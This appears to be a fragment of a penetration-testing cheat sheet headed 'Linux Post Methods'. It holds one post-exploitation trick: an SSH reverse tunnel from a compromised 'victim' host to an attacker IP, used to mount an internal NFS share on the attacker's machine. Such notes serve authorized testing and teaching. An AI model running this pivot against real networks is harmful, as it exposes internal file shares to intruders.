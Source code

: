 # Linux Post Methods

## Misc Tricks

* Mount internal NFS share through pivot:

```
# victim
ssh -R 2049:$target_nfs_ip:2049 proxyusr@$atk_ip
atk
mount -t nfs -o port=2049 localhost:/share /mnt
```
